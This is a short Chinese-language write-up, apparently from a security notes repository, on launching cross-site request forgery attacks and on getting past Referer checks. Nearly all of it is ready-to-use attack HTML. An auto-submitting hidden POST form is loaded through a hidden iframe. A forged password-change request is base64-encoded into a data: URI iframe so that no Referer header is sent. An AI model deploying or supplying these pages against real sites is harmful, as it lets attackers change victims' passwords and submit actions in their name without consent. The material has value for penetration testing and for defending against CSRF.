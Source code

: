 ## CSRF利用及Referer为空情况使用

#### 正常POST请求CSRF攻击

csrfPost.html内容  

```
<html>
	<head>
	<title>You Ctrip CSRF POST attack</title> 
	</head>
	<body>
	</body>
		<form action="http://xxx.com/xxx" id="test_csrf" method="POST">
		<input  type="hidden" value="2" name="Type"/> 
        <input  type="hidden" value="xxxxxx" name="title"/> 
		</form>
	<script>
	var f = document.getElementById("test_csrf");
	f.submit();
	</script>
</html>
```

show.html内容  

```
<!DOCTYPE HTML>
<html lang="en-US">
<head>
<title>CSRF SHOW Ctrip</title>
</head>
     <body>
          <iframe style="display:none;" src="csrfPost.html"></iframe>
     </body>
</html>
```

直接请求show.html完成CSRF攻击  

Referer字段为空情况（有案例只要Referer为空就不验证Referer）  
生成bypass.html 内容  
首先构造POST请求  

```
<form method=post action=http://XXX.cn/updatePassword>
	<input type='hidden' value='' name='Pwd'/>
	<input type='key' value='keyValue' name='key'/>
</form>
<script>document.forms[0].submit();</script>
```
删除一些多余空格

```
<form method=post action=http://qq.com/updatePassword><input type='hidden' value='123' name='Pwd'/><input type='key' value='keyValue' name='key'/></form><script>document.forms[0].submit();</script>
```
  
再编码为BASE64编码  
  
```
PGZvcm0gbWV0aG9kPXBvc3QgYWN0aW9uPWh0dHA6Ly9xcS5jb20vdXBkYXRlUGFzc3dvcmQ+PGlucHV0IHR5cGU9J2hpZGRlbicgdmFsdWU9JzEyMycgbmFtZT0nUHdkJy8+PGlucHV0IHR5cGU9J2tleScgdmFsdWU9J2tleVZhbHVlJyBuYW1lPSdrZXknLz48L2Zvcm0+PHNjcmlwdD5kb2N1bWVudC5mb3Jtc1swXS5zdWJtaXQoKTs8L3NjcmlwdD4=
```
bypass.html最终内容

```
<html>
    <body>
       <iframe src="data:text/html;base64,PGZvcm0gbWV0aG9kPXBvc3QgYWN0aW9uPWh0dHA6Ly9xcS5jb20vdXBkYXRlUGFzc3dvcmQ+PGlucHV0IHR5cGU9J2hpZGRlbicgdmFsdWU9JzEyMycgbmFtZT0nUHdkJy8+PGlucHV0IHR5cGU9J2tleScgdmFsdWU9J2tleVZhbHVlJyBuYW1lPSdrZXknLz48L2Zvcm0+PHNjcmlwdD5kb2N1bWVudC5mb3Jtc1swXS5zdWJtaXQoKTs8L3NjcmlwdD4=">
    </doby>
</html>
```

直接请求bypass.html即可完成CSRF攻击,HTTP头没有Referer字段
 
  